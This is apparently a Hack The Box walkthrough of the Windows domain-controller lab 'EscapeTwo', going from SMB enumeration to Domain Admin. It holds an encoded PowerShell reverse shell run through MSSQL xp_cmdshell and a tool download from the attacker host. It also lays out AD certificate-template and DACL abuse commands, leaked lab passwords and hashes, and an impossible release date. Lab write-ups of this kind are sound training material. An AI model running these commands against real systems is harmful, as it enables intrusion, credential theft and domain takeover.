 
## Box Info

| Name                  | EscapeTwo        | 
| :-------------------- | ---------------: |
| Release Date          | 31 Jun, 2025     |
| OS                    | Windows          |
| Rated Difficulty      | Easy             |

Windows Machine

```java
Nmap 7.95 scan initiated Tue Jan 28 23:36:39 2025 as: /usr/lib/nmap/nmap -sCV -p 53,88,135,139,389,445,464,
593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49689,49690,49691,49696,49720,49797 -oN target
ed 10.10.11.51
Nmap scan report for 10.10.11.51 (10.10.11.51)
Host is up (0.058s latency).

PORT      STATE    SERVICE       VERSION
53/tcp    open     domain        Simple DNS Plus
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-29 05:36:47Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default
-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-29T05:38:19+00:00; 0s from scanner time.
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default
-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-29T05:38:19+00:00; 0s from scanner time.
1433/tcp  open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-29T03:27:52
|_Not valid after:  2055-01-29T03:27:52
| ms-sql-ntlm-info: 
|   10.10.11.51:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.10.11.51:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-01-29T05:38:19+00:00; 0s from scanner time.
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf        .NET Message Framing
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     unknown
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     unknown
49667/tcp filtered unknown
49689/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open     msrpc         Microsoft Windows RPC
49691/tcp open     msrpc         Microsoft Windows RPC
49696/tcp filtered unknown
49720/tcp filtered unknown
49797/tcp filtered unknown
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-29T05:37:40
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

- Initial creds
rose
KxEPkKe6R8su

###### Port 445 - miscrosoft-ds (SMB)



```bash
smbclient -L \\10.10.11.51 -U rose
```



```bash
smbclient //10.10.11.51/Accounting\ Department -U rose
```



Use get fort download the files xlsx 

can open xlsx with wps 360




| First Name | Last Name | Email             | Username | Password         |
| ---------- | --------- | ----------------- | -------- | ---------------- |
| Angela     | Martin    | angela@sequel.htb | angela   | 0fwz7Q4mSpurIt99 |
| Oscar      | Martinez  | oscar@sequel.htb  | oscar    | 86LxLBMgEWaKUnBG |
| Kevin      | Malone    | kevin@sequel.htb  | kevin    | Md9Wlq1E5bZnVDVo |
| NULL       |           | sa@sequel.htb     | sa       | MSSQLP@ssw0rd!   |

### SMB User Bruteforcing
https://www.netexec.wiki/smb-protocol/enumeration/enumerate-users-by-bruteforcing-rid

```bash
netexec smb 10.10.11.51 -u "rose" -p "KxEPkKe6R8su" --rid-brute | grep SidTypeUser
```



`Users`:
Administrator
Guest
krbtgt
DC01$
michael
ryan
oscan
sql_svc
rose
ca_svc

(zsh)
```ruby
python3 mssqlclient.py escapetwo.htb/sa:MSSQLP@ssw0rd\!@10.10.11.51
```




`EXEC sp_configure 'xp_cmdshell', 1;`
`reconfigure;`
for *check* we can use this command:
`EXEC sp_configure 'xp_cmdshell';`
and run whoami
`xp_cmdshell "whoami"`




https://github.com/Mayter/mssql-command-tool/releases/tag/mssql

`EXEC sp_configure 'xp_cmdshell', 1;`
`reconfigure;`

```ruby
xp_cmdshell powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA3ADAAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```



`C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI`



Password:
```ruby
WqSZAF6CysDQbGb3
```

```bash
netexec smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3'
```



```bash
evil-winrm -i 10.10.11.51 -u ryan -p 'WqSZAF6CysDQbGb3'
```



### Privilege Escalation (AD)

`ipconfig /all`



##### BloodHound

```ruby
bloodhound-python -u ryan -p "WqSZAF6CysDQbGb3" -d sequel.htb -ns 10.10.11.51 -c All
```




#### DACL Abuse

https://www.thehacker.recipes/ad/movement/dacl/grant-ownership
https://www.kali.org/tools/bloodyad/

**Modify the owner of an Active Directory (AD) object**

```bash
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```


https://www.thehacker.recipes/ad/movement/dacl/grant-rights

```bash
sudo python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
```



> This command attempts to modify the access permissions (DACL) on the object `ca_svc` in the domain `sequel.htb`. Specifically, it is granting the `FullControl` (full control) right to the user `ryan`. This means that, if the command is successful, the user `ryan` will have complete control over the `ca_svc` object, allowing them to perform any action on it, such as reading, modifying, or deleting it.

#### ESC4 to ESC1

https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4

```bash
sudo certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```

fix the erro: `sudo ntpdate sequel.htb`



> Extraction or manipulation of certificates in the AD certificate store, possibly to obtain sensitive information or to perform actions related to certificate security.

`[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce`

https://hideandsec-sh.translate.goog/books/cheatsheets-82c/page/active-directory-certificate-services?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

```powershell
Invoke-WebRequest -UsebasicParsing -Uri http://10.10.14.170/Certify.exe -OutFile Certify.exe
```

```powershell
./Certify.exe find /domain.sequel.htb
```



`Template Name                         : DunderMifflinAuthentication`

`Full Control Principals     : SEQUEL\Cert Publishers        S-1-5-21-548670397-972687484-3496335370-517`

https://github.com/ly4k/Certipy

> Este comando busca y enumera los certificados que están configurados en el dominio **sequel.htb**. La herramienta **Certify.exe** se conecta al controlador de dominio (DC) del dominio especificado y realiza las siguientes acciones:
> 
> 1. **Enumera plantillas de certificados**: Busca las plantillas de certificados configuradas en la Autoridad de Certificación (CA) del dominio.
>     
> 2. **Enumera certificados emitidos**: Lista los certificados que han sido emitidos por la CA.
>     
> 3. **Verifica configuraciones inseguras**: Identifica configuraciones potencialmente inseguras en las plantillas de certificados, como permisos excesivos o configuraciones que podrían permitir el abuso de certificados.

**Auth with Kerberos**

```bash
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.XX.XX -target dc01.sequel.htb
```




> 1. **Autenticación Kerberos**: Utiliza el ticket de Kerberos almacenado en `ca_svc.ccache` para autenticarse en el dominio `sequel.htb`. Esto permite ejecutar el comando sin necesidad de proporcionar credenciales directamente.
>     
> 2. **Interacción con la plantilla de certificados**: Se dirige a la plantilla de certificados llamada **DunderMifflinAuthentication** en el controlador de dominio `dc01.sequel.htb`.
>     
> 3. **Obtención de información**: Dependiendo del uso de **Certipy**, este comando podría estar obteniendo información sobre la plantilla de certificados, como sus configuraciones, permisos o vulnerabilidades.

**Authentication based on NTLM hashes.**

```bash
sudo certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
```




> - **NTLM hash authentication**: It uses the provided NTLM hash (`3b181b914e7a9d5508ea1e20bc2b7fce`) to authenticate as the user `ca_svc` in the domain `sequel.htb`.
>     
> - **Certificate request**: It requests a certificate from the Certification Authority (CA) `sequel-DC01-CA` using the certificate template `DunderMifflinAuthentication`.
>     
> - **Certificate for the specified UPN**: The certificate is requested for the UPN `administrator@sequel.htb`, meaning the issued certificate will be associated with this user.
>     
> - **Name resolution**: It uses the provided IP addresses (`10.10.11.51`) for name resolution (Name Server and DNS).
>     
> - **Debug mode**: It provides detailed information about the command execution, which can be useful for troubleshooting or better understanding the process.

**Authentication using a PFX file that contains a certificate.**

```bash
sudo certipy-ad auth -pfx administrator_10.pfx -domain sequel.htb
```




> - **Autenticación con certificado**: Utiliza el archivo PFX (`administrator_10.pfx`) para autenticarse en el dominio `sequel.htb`. El archivo PFX contiene un certificado y una clave privada, que se utilizan para demostrar la identidad del usuario.
>     
> - **Obtención de un ticket de Kerberos**: Si la autenticación es exitosa, **Certipy** puede obtener un ticket de Kerberos (TGT, Ticket Granting Ticket) para el usuario asociado al certificado. Este ticket puede ser utilizado para acceder a recursos en el dominio.

```bash
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```


```bash
evil-winrm -i 10.10.11.51 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
```



[DACL](https://www.thehacker.recipes/ad/movement/dacl/)